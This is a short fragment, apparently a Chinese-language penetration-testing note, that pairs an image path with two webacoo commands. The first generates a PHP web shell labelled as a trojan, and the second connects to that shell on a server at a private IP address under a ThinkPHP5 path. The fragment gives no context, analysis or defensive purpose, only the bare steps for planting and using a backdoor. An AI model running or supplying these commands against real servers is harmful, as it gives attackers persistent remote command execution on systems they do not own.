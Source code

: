 ···
webacoo -g -o webacoo.php   生成木马


webacoo -t -u http://10.203.87.64/tp5/public/webacoo.php     连接木马